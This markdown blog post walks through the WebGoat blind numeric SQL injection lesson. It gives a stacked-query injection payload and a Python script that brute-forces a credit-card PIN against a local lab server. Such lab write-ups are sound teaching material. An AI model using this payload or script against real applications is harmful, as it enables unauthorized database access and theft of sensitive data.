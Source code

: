 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Injection Flaws"
subtitle: "Blind SQL Injection (Numeric)"
date:   2017-01-30 06:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Blind Numeric SQL Injection
Instructions:

- The form below allows a user to enter an account number and determine if it is valid or not. Use this form to develop a true / false test check other entries in the database.
- The goal is to find the value of the field pin in table pins for the row with the cc_number of 1111222233334444. The field is of type int, which is an integer.
- Put the discovered pin value in the form to pass the lesson.

First thing to do is throw some test input at the application and see what we get back:

<img src="{{ site.baseurl }}/images/2017-01-30-webgoat_part_14/blind-canary-alive.jpg">

<img src="{{ site.baseurl }}/images/2017-01-30-webgoat_part_14/blind-canary-dead.jpg">

Alright, so we have some feedback for true and false values in our database. This is actually all we need to create a Blind SQL Injection attack. Our next step is to craft iterative requests to probe the database and find the user that has our desired criteria. We will be able to tell when we found our user when we receive a positive hit (output that looks like our first test).

First thing to do is craft the SQL statement that we will be sending to the server. Our initial request looked like this:

```
account_number=101&SUBMIT=Go%21
```

We need to build a SQL injection on top of this that will return true when we find the pin associated with the credit card number ```1111222233334444``` in the ```pins``` table. I came up with something that looked like this:

```
select * from pins where cc_number = 1111222233334444 and pin = xxx
```

Then we write out our full statement to bruteforce:

```
101;select * from pins where cc_number = 1111222233334444 and pin = xxx--
```

Alright, so we have our payload template for our bruteforce. Now we could use BurpSuite's Intruder tool to perform this bruteforce. Unfortunately the free version has a heavy rate-limit built into it between requests. So, why don't we repurpose our brute-forcing script from before for cracking the ```Forgot Password``` challenge into a Blind SQL injection tool? Here's what it looks like (remembering to update our session cookie):

{% highlight python %}
import sys
import requests

def main():

	headers = {
		"user-agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"
	}
	cookies = dict(JSESSIONID="9807FE50B02B2B1D50B8113FFB60D0DC",acopendivids="swingset,jotto,phpbb2,redmine",acgroupswithpersist="nada")

	attempts = 0
	for x in range(0, 10):
		for y in range(0, 10):
			for z in range(0, 10):
				for a in range(0, 10):
					attempts += 1
					pin = "{}{}{}{}".format(x,y,z,a)
					print ("[*] Attempt {} | PIN {}".format(attempts, pin))
					pin_request = '101;select * from pins where cc_number = 1111222233334444 and pin = {}--'.format(pin)
					payload= {"account_number":pin_request,"SUBMIT":"Go%21"}
					r = requests.post("http://192.168.56.101/WebGoat/attack?Screen=4&menu=1100", params=payload, headers=headers, cookies=cookies)
					if r.status_code == 200:
						if "account number is valid" in r.text.lower():
							print ("[+] SUCCESS! PIN is: {}".format(pin))
							sys.exit(0)
					else:
						print ("error: {}".format(r.text))
						sys.exit(1)

main()
{% endhighlight %}

<img src="{{ site.baseurl }}/images/2017-01-30-webgoat_part_14/pin-success.jpg">

And when we enter that PIN into the form:

<img src="{{ site.baseurl }}/images/2017-01-30-webgoat_part_14/pin-defeated.jpg">

Brute-force to the rescue!